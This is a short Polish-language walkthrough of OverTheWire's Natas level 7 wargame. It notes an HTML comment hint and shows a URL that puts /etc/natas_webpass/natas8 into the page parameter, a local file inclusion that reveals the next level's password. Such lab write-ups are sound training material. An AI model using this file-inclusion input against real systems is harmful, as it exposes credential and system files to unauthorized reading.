


Strona główna zawiera dwa linki: 
- Home
- About


Oba prowadzą do stron które tylko wyświetlają krótki napis "this is the (nazwa podstrony) page". 

W HTML strony głównej znajduje się podpowiedź, że hasło do kolejnego poziomu jest w danym katalogu.

``` HTML
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
```

Dopisanie tej ścieżki w miejsce parametru page w url strony zwraca hasło.

``` url
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
```
